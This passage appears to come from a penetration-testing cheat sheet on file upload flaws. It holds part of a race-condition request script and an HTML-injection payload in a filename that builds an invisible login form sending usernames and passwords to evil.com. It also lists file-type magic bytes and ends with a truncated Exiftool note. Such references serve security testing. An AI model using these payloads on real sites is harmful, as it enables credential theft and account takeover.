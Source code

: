 ```python
    engine.queue(request_post, gate='race1')
    for i in range(5):
        engine.queue(request_get, gate='race1')


    engine.openGate('race1')
    engine.complete(timeout=60)
    


def handleResponse(req, interesting):
    table.add(req)
```

<br />

## HTML Injection with Filename

```bash
<h1>test.jpg

# Account takeover
"><form action="//evil.com" method="GET"><input type="text" name="username" style="opacity:0;"><input type="password" name="password" style="opacity:0;"><input type="submit" name="submit" value="submit"><!--.jpg
```

<br />

## Other Tips

### Magic Bytes

```sh
# PNG
89 50 4E 47 ...

# JPEG
FF D8 DD E0 ...

# JPG
FF D8 FF EE ...
```

<br />

## Software Vulneratilities

### Exiftool

If the website uses Exiftool to analyze uploaded files, we can exploit the vulnerability of Exiftool.
